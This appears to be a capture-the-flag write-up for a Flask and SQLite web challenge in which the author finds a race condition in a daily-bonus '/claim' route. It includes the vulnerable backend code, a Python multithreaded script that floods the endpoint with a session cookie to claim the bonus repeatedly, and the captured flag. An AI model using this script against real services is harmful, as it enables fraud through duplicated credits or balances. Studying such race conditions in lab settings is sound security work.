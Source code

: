![image](https://github.com/user-attachments/assets/aed90ea8-d1de-4a71-a972-cdef13c48e7c)

## How the app works:
![image](https://github.com/user-attachments/assets/208f501c-21f0-45d4-ac6f-cd03939f0cf3) ![image](https://github.com/user-attachments/assets/b00a16b4-bfd9-4f8e-9f33-a536c6309b4e)

```js
/register - New user with 1000 balance. 
/claim - +1000 bonus (1 per user). 
/buy_flag - Need 3000 balance for flag
```

## What Actually Happened (My Mistake Story):
Okay so at first  I thought this challenge was something about token or session attack. 
I spent like 5-10 minutes trying to look at the session cookie  maybe it’s something like JWT, or weak secret key, or something I could decode. 
But turns out... 
```
Flask uses os.urandom(16) for app.secret_key
```
which is random and basically impossible to guess unless you control the server. 
My mistake la G I should’ve just read the backend code properly from the start.

## What I Found After Reading the Backend
After checking the source code  I saw something interesting in the /claim route.
```js
cur = db.execute('SELECT claimed FROM redemptions WHERE username=?', (username,))
row = cur.fetchone()
if row and row['claimed']:
    flash("You have already claimed your daily bonus!", "danger")
    return redirect(url_for('dashboard'))

db.execute('INSERT OR REPLACE INTO redemptions (username, claimed) VALUES (?, 1)', (username,))
db.execute('UPDATE users SET balance = balance + 1000 WHERE username=?', (username,))
db.commit()
```
At first glance, I was like looks okay…
But if you search online or check basic references about Race Condition on database 
especially for Flask + SQLite  you’ll find that this pattern can be risky if the database doesn’t have locking mechanism or transaction isolation.
Reference example: https://portswigger.net/web-security/race-conditions
Here’s another way to do this via burp: https://medium.com/@mahakjaiswani888/race-condition-vulnerability-f92de47aa55c

## Why This Can Be Exploited?
Since the code checks if claimed=1 first  then only after that it updates the balance and sets claimed=1
there is a small window where I can spam multiple requests fast enough before the server saves claimed=1 to the database.
SQLite doesn’t handle this by default unless you use special locking or transaction isolation which this code doesn’t have.

## Exploit Steps
![image](https://github.com/user-attachments/assets/9a8a59c0-af40-4ced-ae57-3609dd62ba26)

•	Register new account - get 1000 balance.

•	Don’t claim the daily bonus 

•	Spam **/claim** fast using Python multithreading. (Again, we need UNCOLLECTED DAILY BONUS jwt-token for this!)

![image](https://github.com/user-attachments/assets/548cf9f5-cbdf-4f72-83bd-3e253a1fb87e)
Here’s the cracker.py :
```python
import threading
import requests

# Replace these with your target URL and session cookie
BASE_URL = "http://159.69.219.192:7859"
SESSION_COOKIE = "UNCLAIMED DAILY USER TOKEN"

def claim_bonus():
    headers = {"Cookie": f"session={SESSION_COOKIE}"}
    response = requests.post(f"{BASE_URL}/claim", headers=headers)
    print(response.text)

# Create multiple threads to exploit the race condition
threads = []
for _ in range(10):  # Adjust the number of threads as needed
    thread = threading.Thread(target=claim_bonus)
    threads.append(thread)
    thread.start()

# Wait for all threads to complete
for thread in threads:
    thread.join()

print("Exploit completed. Check your balance on /dashboard.")
```
![image](https://github.com/user-attachments/assets/c81b0931-82d7-4a63-8d45-f8c946108e78)

•	Simply refresh our web and finally, redeem flag at **/buy_flag.**

![image](https://github.com/user-attachments/assets/e8a40c47-8adc-4b48-b733-e158c6f8de4c) ![image](https://github.com/user-attachments/assets/bf280620-443a-4ca8-b9aa-e4cb008bedd7)

•	And here’s the flag!! 
UMCS{th3_s0lut10n_1s_pr3tty_str41ghtf0rw4rd_too!}

